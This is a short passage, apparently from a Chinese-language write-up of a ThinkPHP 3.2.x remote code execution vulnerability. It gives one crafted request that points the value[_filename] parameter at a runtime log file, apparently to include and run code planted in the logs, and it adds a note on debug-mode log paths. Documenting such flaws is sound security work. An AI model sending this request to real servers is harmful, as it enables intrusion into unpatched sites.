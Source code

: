 > 构造攻击请求：
> http://127.0.0.1/index.php?m=Home&c=Index&a=index&value[_filename]=./Application/Runtime/Logs/Common/21_06_30.log

![image-20210712115020758](resource/ThinkPHP3.2.xRCE漏洞/image-20210712115020758.png)



> 2.debug模式开启：

```
上面的错误请求日志方式同样可用。另外debug模式开启，正确请求的日志也会被记录的到日志中，但日志路径不一样。
```

